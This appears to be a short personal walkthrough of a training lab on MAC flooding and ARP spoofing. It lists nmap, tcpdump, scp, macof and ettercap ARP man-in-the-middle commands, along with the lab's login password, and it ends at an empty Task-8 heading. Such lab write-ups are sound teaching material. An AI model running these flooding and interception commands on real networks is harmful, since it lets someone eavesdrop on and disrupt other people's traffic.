

## **L2 MAC Flooding & ARP Spoofing**

```
ssh -o StrictHostKeyChecking=accept-new admin@MACHINE_IP
```

password is Layer2

```
show ip addr eth1
```

```
sudo nmap -sN 192.168.12.66/24
```

Found name alice in this

```
sudo tcpdump -i eth1
```

```
sudo tcpdump -A -i eth1 -w /tmp/tcpdump.pcap
```

```
cd /tmp
```


and we found tcpdump file here

```
cd ..
```

Run this in your machine

```
sudo scp admin@10.48.165.219:/tmp/tcpdump.pcap .
```
Now open this in your wireshark

```
wireshark tcpdump.pcap
```



Now in admin@eve run

```
cd tmp
```

```
sudo tcpdump -A -i eth1 -w /tcpdump2.pcap
```

Open another tab and login

```
ssh -o StrictHostKeyChecking=accept-new admin@[IP Address]
```

```
sudo macof -i eth1
```

After few stop both macof and tcpdump

```
sudo scp admin@10.48.165.219:/tmp/tcpdump.pcap .
```

We see data of 1337 bytes

Now we will do MiTM

In admin@eve run

```
sudo ettercap -T -i eth1 -M arp
```

Here we see 0 only in communication so we aren’t able to setup ettercap

Now in this we have ARP packet validation enabled so we cant do anything

### **Task-7**

For this task we have 2nd machine

Credentials:

Admin:Layer2

Run in and connect with

```
ssh admin@<IP>
```

```
ip a
```

```
nmap <IP/CIDR> (eth1 192.168.12.66/24 one)
```

```
sudo tcpdump -vvA -i eth1
```

We see no packets run so Nay

Now if we run

```
sudo ettercap -T -i eth1 -M arp
```

We found packets being intercepted

### **Task-8**


